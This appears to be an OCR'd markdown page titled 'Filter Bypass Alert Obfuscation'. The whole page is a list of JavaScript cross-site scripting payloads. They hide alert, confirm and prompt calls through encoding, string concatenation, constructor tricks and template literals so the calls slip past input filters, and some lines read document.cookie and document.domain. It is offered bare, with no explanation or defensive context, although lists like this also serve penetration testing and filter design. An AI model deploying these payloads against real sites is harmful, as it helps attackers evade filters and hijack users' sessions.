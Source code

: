 ### Filter Bypass Alert Obfuscation
 ```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
globalThis[/al/.source+/ert/.source]`1` 
[alert][0].call(this,1)
(1,2,3,4,5,6,7,8,alert)(1)
top['al\x65rt'](1)
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])


confirm()
confirm``
(confirm``)
{confirm``}
[confirm``]
(((confirm)))``
co\u006efirm()
new class extends confirm``{}
[8].find(confirm)
[8].map(confirm)
[8].some(confirm)
[8].every(confirm)
[8].filter(confirm)
[8].findIndex(confirm)

self[`aler`%2b`t`]`1`
'new Function`al\ert\`1\``'
'new Function`pro\mpt\`1\``'

alert(document['cookie']) 
with(document)alert(cookie) 
eval('ale'+'rt(1)')window['alert'](0)
parent['alert'](1)
self['alert'](2)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[12].forEach(alert);
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;

alert.call(null, document.domain);
[document.domain].forEach(alert);
alert.apply(null, [document.domain]);
alert.bind()(document.domain);
alert(this['document']['domain']);
(new Map()).set(1, document.domain).forEach(alert);

[class extends[alert````]{}]
```${``[class extends[alert``]{}]}```
[class extends[alert````]{}]
throw new class extends Function{}('alert(1)')``
 ```